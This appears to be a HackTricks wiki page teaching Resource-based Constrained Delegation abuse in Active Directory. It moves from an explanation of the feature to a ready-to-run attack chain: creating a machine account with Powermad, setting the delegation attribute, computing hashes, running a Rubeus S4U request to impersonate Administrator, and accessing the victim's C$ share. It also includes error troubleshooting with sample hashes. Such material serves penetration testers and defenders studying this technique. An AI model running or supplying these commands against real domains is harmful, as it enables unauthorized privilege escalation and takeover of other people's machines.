 # Resource-based Constrained Delegation

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## Basics of Resource-based Constrained Delegation

This is similar to the basic [Constrained Delegation](constrained-delegation.md) but **instead** of giving permissions to an **object** to **impersonate any user against a service**. Resource-based Constrain Delegation **sets** in **the object who is able to impersonate any user against it**.

In this case, the constrained object will have an attribute called _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ with the name of the user that can impersonate any other user against it.

Another important difference from this Constrained Delegation to the other delegations is that any user with **write permissions over a machine account** (_GenericAll/GenericWrite/WriteDacl/WriteProperty/etc_) can set the _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ (In the other forms of Delegation you needed domain admin privs).

### New Concepts

Back in Constrained Delegation it was told that the **`TrustedToAuthForDelegation`** flag inside the _userAccountControl_ value of the user is needed to perform a **S4U2Self.** But that's not completely truth.\
The reality is that even without that value, you can perform a **S4U2Self** against any user if you are a **service** (have a SPN) but, if you **have `TrustedToAuthForDelegation`** the returned TGS will be **Forwardable** and if you **don't have** that flag the returned TGS **won't** be **Forwardable**.

However, if the **TGS** used in **S4U2Proxy** is **NOT Forwardable** trying to abuse a **basic Constrain Delegation** it **won't work**. But if you are trying to exploit a **Resource-Based constrain delegation, it will work** (this is not a vulnerability, it's a feature, apparently).

### Attack structure

> If you have **write equivalent privileges** over a **Computer** account you can obtain **privileged access** in that machine.

Suppose that the attacker has already **write equivalent privileges over the victim computer**.

1. The attacker **compromises** an account that has a **SPN** or **creates one** (“Service A”). Note that **any** _Admin User_ without any other special privilege can **create** up until 10 **Computer objects (**_**MachineAccountQuota**_**)** and set them a **SPN**. So the attacker can just create a Computer object and set a SPN.
2. The attacker **abuses its WRITE privilege** over the victim computer (ServiceB) to configure **resource-based constrained delegation to allow ServiceA to impersonate any user** against that victim computer (ServiceB).
3. The attacker uses Rubeus to perform a **full S4U attack** (S4U2Self and S4U2Proxy) from Service A to Service B for a user **with privileged access to Service B**.
   1. S4U2Self (from the SPN compromised/created account): Ask for a **TGS of Administrator to me** (Not Forwardable).
   2. S4U2Proxy: Use the **not Forwardable TGS** of the step before to ask for a **TGS** from **Administrator** to the **victim host**.
   3. Even if you are using a not Forwardable TGS, as you are exploiting Resource-based constrained delegation, it will work.
4. The attacker can **pass-the-ticket** and **impersonate** the user to gain **access to the victim ServiceB**.

To check the _**MachineAccountQuota**_ of the domain you can use:

```
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```

## Attack

### Creating a Computer Object

You can create a computer object inside the domain using [powermad](https://github.com/Kevin-Robertson/Powermad)**:**

```csharp
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](../../.gitbook/assets/b1.png)

```bash
Get-DomainComputer SERVICEA #Check if created if you have powerview
```

### Configuring R**esource-based Constrained Delegation**

**Using activedirectory PowerShell module**

```bash
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```

![](../../.gitbook/assets/B2.png)

**Using powerview**

```bash
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```

### Performing a complete S4U attack

First of all, we created the new Computer object with the password `123456`, so we need the hash of that password:

```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```

This will print the RC4 and AES hashes for that account.\
Now, the attack can be performed:

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```

You can generate more tickets just asking once using the `/altservice` param of Rubeus:

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```

{% hint style="danger" %}
Note that users has an attribute called "**Cannot be delegated**". If a user has this attribute to True, you won't be able to impersonate him . This property can be seen inside bloodhound.
{% endhint %}

![](../../.gitbook/assets/B3.png)

### Accessing

The last command line will perform the **complete S4U attack and will inject the TGS** from Administrator to the victim host in **memory**.\
In this example it was requested a TGS for the **CIFS** service from Administrator, so you will be able to access **C$**:

```bash
ls \\victim.domain.local\C$
```

![](../../.gitbook/assets/b4.png)

### Abuse different service tickets

Lear about the [**available service tickets here**](silver-ticket.md#available-services).

## Kerberos Errors

* **`KDC_ERR_ETYPE_NOTSUPP`**: This means that kerberos is configured to not use DES or RC4 and you are supplying just the RC4 hash. Supply to Rubeus at least the AES256 hash (or just supply it the rc4, aes128 and aes256 hashes). Example: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: This means that the time of the current computer is different from the one of the DC and kerberos is not working properly.
* **`preauth_failed`**: This means that the given username + hashes aren't working to login. You may have forgotten to put the "$" inside the username when generating the hashes (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`**: This may mean:
  * The user you are trying to impersonate cannot access the desired service (because you cannot impersonate it or because it doesn't have enough privileges)
  * The asked service doesn't exist (if you ask for a ticket for winrm but winrm isn't running)
  * The fakecomputer created has lost it's privileges over the vulnerable server and you need to given them back.

## References

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
